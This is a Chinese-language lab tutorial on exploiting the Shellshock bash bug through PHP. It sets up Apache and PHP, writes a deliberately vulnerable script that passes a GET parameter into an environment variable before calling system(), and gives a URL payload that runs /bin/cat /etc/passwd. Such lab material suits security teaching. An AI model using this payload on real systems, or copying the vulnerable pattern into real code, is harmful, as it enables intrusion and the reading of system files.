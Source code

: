 # 通过PHP代码攻击

!!! Note

    原理：PHP有system函数，可以执行外部命令，该函数是通过/bin/sh来执行的，
    故实验开始前要确保执行过 sudo ln -sf /bin/bash /bin/sh

## php环境搭建

```bash
sudo apt install php libapache2-mod-php
sudo /etc/init.d/apache2 restart
```

测试：
```bash
vi /var/www/html/info.php
```
```php
<?php

phpinfo();
```

显示如下页面则搭建成功：
![搭建php环境](../img/shellshock-php.png)

## 攻击盗取密码

```bash
vi /var/www/html/phptest.php
```

```php
<?php

function getParam()
{
$arg = NULL;
if (isset($_GET["arg"]) && !empty($_GET["arg"]))
{
    $arg = $_GET["arg"];
}
return $arg;
}

$arg = getParam();
putenv("ARG=$arg");
system("strings /proc/$$/environ | grep ARG");

```

通过浏览器执行攻击：

    http://192.168.0.11/phptest.php?arg=() { echo hello;}; /bin/cat /etc/passwd


成功hacker到密码：
![通过php攻击得到密码](../img/shellshock-phpattack.png)